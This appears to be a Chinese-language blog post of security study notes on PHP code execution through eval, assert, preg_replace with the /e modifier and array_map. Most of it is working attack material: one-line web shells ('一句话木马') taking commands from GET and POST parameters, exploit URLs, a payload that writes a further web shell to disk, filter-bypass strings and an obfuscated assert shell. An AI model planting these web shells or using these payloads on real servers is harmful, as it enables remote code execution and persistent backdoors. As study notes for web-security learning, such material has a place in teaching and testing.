 ```yaml
---
title: php代码执行与命令执行
date: 2019-01-06 20:35:09
tags: [php]
categories:
  - [php]
  - [整理]
---
```


# php代码执行与命令执行

## 代码执行

### eval()  

— 把字符串作为PHP代码执行

```php
#例:一句话木马
<?php
@eval($_GET["cmd"]);
?>
```

利用方式：

```php
1. shell.php?cmd=phpinfo();

#文件上传条件竞争可利用此方式来创建文件
2. shell.php?cmd=fputs(fopen('test.php','w'),'<?php @eval($_POST[test])?>')

#绕过
<?php
$cmd = @(string)$_GET["cmd"];
eval('$cmd="' . addslashes($cmd) . '";');
?>
3. shell.php?cmd=${${phpinfo()}};

#绕过
<?php
$cmd = "echo \"hello " . $_GET['cmd'] . "\";";
eval($cmd);?>
4. ${${}}
shell.php?cmd=${${phpinfo()}};
```



### assert()

— bool assert ( [mixed](http://php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$assertion` [, Throwable `$exception` ] )

如果 `assertion` 是字符串，它将会被 **assert()** 当做 PHP 代码来执行。

```php
#例:一句话木马
<?php
@assert($_GET["cmd"]);
?>
```

### preg_replace + '/e'

preg_replace — 执行一个正则表达式的搜索和替换

preg_replace ( $pattern , $replacement , $subject )

preg_replace(1,2,3),在3中用1的格式匹配，用2的格式输出。

代码执行条件：

1. magic_quotes_gpc=Off时，导致代码执行。

2. pattern参数中注入/e选项

```php
<?php
$regexp = $_GET['reg'];
$var = '<php>phpinfo()</php>';
preg_replace("/<php>(.*?)$regexp", '\\1', $var);
?>
#利用方式 reg=%3C\/php%3E/e 即reg=<\/php>/e
```

利用方式：

```php
#当replacement 参数构成一个合理的php 代码字符串的时候
#/e 修正符使preg_replace()，将replacement 参数当做php 代码执行
#例:一句话木马
1.
<?php
preg_replace("//e", $_GET['cmd'], "cmd test");
?>
shell.php?cmd=phpinfo();

2.
<?
preg_replace("/\s*\[php\](.+?)\[\/php\]\s*/ies", "\\1", $_GET['h']);
?>
h=[php]phpinfo()[/php]
```
![001](/img/php/php_fun_CodeAndOrder/001.png)

### array_map

```php
#例:一句话木马
<?php array_map("ass\x65rt",(array)$_REQUEST['test']);?>
1.shell.php?test=phpinfo()
```

